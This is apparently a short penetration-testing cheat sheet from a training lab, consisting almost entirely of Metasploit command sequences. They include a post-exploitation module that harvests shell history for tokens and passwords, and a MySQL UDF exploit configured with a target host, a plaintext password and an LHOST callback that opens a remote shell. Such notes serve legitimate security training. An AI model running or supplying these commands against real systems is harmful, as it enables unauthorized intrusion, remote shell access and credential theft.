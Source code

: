 #### Post Exploitation Metasploit Modules
> Enumerate users history . Sometime there may be tokens, password for various services in the history file.
```
background
use post/linux/gather/enum_users_history
set SESSION 1
run

```

#### Mysql to shell

```
exploit/multi/mysql/mysql_udf_payload
set FORCE_UDF_UPLOAD true
set PASSWORD fArFLP29UySm4bZj
set RHOSTS server2.ine.local
set TARGET 1
set LHOST 192.73.96.2
exploit
session -i 2
```

#### See services Running on Machine
```

netstat -ano
```

